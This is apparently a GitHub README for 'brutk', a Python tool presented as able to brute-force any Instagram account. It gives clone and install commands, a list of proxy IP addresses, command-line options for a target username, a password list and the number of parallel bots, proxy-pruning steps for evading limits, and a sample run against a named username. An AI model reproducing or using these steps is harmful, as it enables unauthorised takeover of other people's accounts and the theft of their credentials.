 # brutk 

This program will brute force any Instagram account 
# Requirements 

Python v3.9


proxy list 

# Installation 

git clone https://github.com/Khalidhusain786/brutk.git

cd brutk 


pip install pipenv  
 
 
pipenv --python 3.9 


pipenv install 



# Upload Proxy 
  
  3.238.111.248:80

206.189.59.192:8118

165.22.81.30:34100

176.248.120.70:3128

191.242.178.209:3128

180.92.194.235:80  


To upload a list of proxies a similar syntax must be followed.  




python instagram.py -px <path to proxy list>  


 

  
  # Stats 
 
 This gives an insight into the health of the proxies in the database.
 
 
 
 
 python instagram.py --stats 
 
 
# Help

usage:  instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit 
  
  -u USERNAME, --username USERNAME
                        email or username 
                        
  -p PASSLIST, --passlist PASSLIST 
                        password list 
                        
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list 
                        
  --prune PRUNE         prune the database 
  
  --stats               get statistics of the proxies 
  
  -nc, --no-color       disable colors 
  
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots 
  
 
 
 
  # Prune 
 
 
 This allows the able to get rid of proxies with a score below a given score.

It is recommended that you run the --stats and prune the database of proxies 
 
 
 

 python instagram.py --prune 0.05

 
 
 
Pruning is not a requirement because the

the system will automatically learn which proxies perform poorly and stop using them.
 
 
 # Usage 
 
 python instagram.py -u <username> -p <passlist> -px (proxylist) -m (mode)

  
# Run 
 
Wordlist: gali.txt

[-] Username: galikachora
 

[-] Password: 580
 

[-] Complete: 65.51%

[-] Attempts: 350

[-] Browsers: 280

[-] Exists: True
  





